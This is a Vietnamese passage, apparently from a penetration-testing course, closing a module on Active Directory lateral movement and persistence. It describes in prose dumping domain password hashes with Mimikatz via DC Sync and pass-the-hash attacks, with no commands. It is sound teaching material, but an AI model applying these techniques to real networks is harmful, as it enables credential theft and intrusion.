Tuyệt vời! Chúng ta đã thu được **NTLM hash** và **Kerberos key** của toàn bộ người dùng trong Active Directory. Giờ đây, ta có thể **crack mật khẩu** hoặc **sử dụng trực tiếp trong các cuộc tấn công pass-the-hash**.

Mặc dù các phương pháp trên hoạt động hiệu quả, chúng để lại dấu vết truy cập và thường yêu cầu upload công cụ lên hệ thống. Một lựa chọn khác là **lạm dụng chính các chức năng của Active Directory** để thu thập hash từ xa thông qua một workstation.

Cụ thể, ta có thể **di chuyển lateral** sang domain controller và chạy **Mimikatz** để dump hash mật khẩu của toàn bộ người dùng bằng phương pháp **DC Sync**, như đã mô tả ở Module trước. Đây là một kỹ thuật persistence **kín đáo hơn** có thể bị lạm dụng.

Dù phần lớn các bài pentest không yêu cầu tính ẩn mình cao, chúng ta vẫn nên **đánh giá mức độ stealth của từng kỹ thuật**, điều này đặc biệt hữu ích trong các hoạt động **red team** sau này.

Trong Learning Unit này, chúng ta đã khám phá một số **kỹ thuật persistence trong Windows Active Directory**, có thể được sử dụng trong pentest hoặc red-teaming khi luật engagement yêu cầu duy trì quyền truy cập lâu dài vào môi trường đã bị xâm nhập.

---

# 3. Tổng kết

---

Module này khép lại phần kiến thức về **Active Directory** bằng việc cung cấp cái nhìn tổng quan về một số **kỹ thuật lateral movement và persistence** trong Active Directory. Mặc dù nhiều kỹ thuật đã được đề cập và giải thích trong module này, vẫn còn rất nhiều kỹ thuật khác đáng để khám phá, và thậm chí còn có những kỹ thuật mới chưa được phát hiện.

Hiệu quả của các kỹ thuật mà chúng ta đã học **phụ thuộc chặt chẽ vào mức độ bảo mật (security posture)** của môi trường đang được kiểm thử. Mặc dù bảo mật Active Directory đã được cải thiện đáng kể qua nhiều năm, **bề mặt tấn công (attack surface)** của nó cuối cùng vẫn phụ thuộc vào **độ phức tạp trong thiết kế** và **khả năng tương thích với các hệ thống legacy**, vốn có thể áp đặt các tiêu chuẩn bảo mật thấp hơn.

Do tập trung vào cách **thực thi kỹ thuật**, chúng ta đã **cố ý bỏ qua yếu tố stealth (tính ẩn mình)**. Stealth là một yêu cầu quan trọng trong các hoạt động **red-teaming**, nhưng nhìn chung **không phải là yêu cầu bắt buộc trong penetration testing**.

Tuy nhiên, việc **làm chủ các kỹ thuật enumeration, authentication và lateral movement trong Active Directory** là một bước quan trọng trên con đường trở thành **một penetration tester giàu kinh nghiệm**.